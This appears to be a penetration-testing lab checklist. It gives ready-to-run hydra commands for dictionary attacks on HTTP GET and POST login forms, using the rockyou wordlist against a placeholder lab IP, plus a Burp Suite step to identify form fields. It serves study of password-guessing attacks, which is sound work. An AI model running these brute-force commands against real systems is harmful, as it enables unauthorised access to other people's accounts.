 
# HTTP GET Brute Force

- [ ] Do a Dictionary Attack on HTTP GET Login on a single user using `hydra` on your Kali Machine
```
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.yyy.yyy http-get / 
```

- [ ] Do a Dictionary Attack on HTTP GET Login on a user list using `hydra` on your Kali Machine
```
sudo hydra -L user_list.txt -P /usr/share/wordlists/rockyou.txt 192.168.yyy.yyy http-get / 
```
# HTTP POST Brute Force

- [ ] Use Burp Suite to intercept a POST login request on your Kali Machine
```
Identify parameters
Identify failure message
```

- [ ] Do a Dictionary Attack on HTTP POST Login on a single user using `hydra` on your Kali Machine
```
sudo hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.yyy.yyy http-post-form "/index.php:usr_param=user&pwd_param=^PASS^:Login failed. Invalid username or password"
```

- [ ] Do a Dictionary Attack on HTTP POST Login on a user list using `hydra` on your Kali Machine
```
sudo hydra -L user_list.txt -P /usr/share/wordlists/rockyou.txt 192.168.yyy.yyy http-post-form "/index.php:usr_param=user&pwd_param=^PASS^:Login failed. Invalid username or password"
```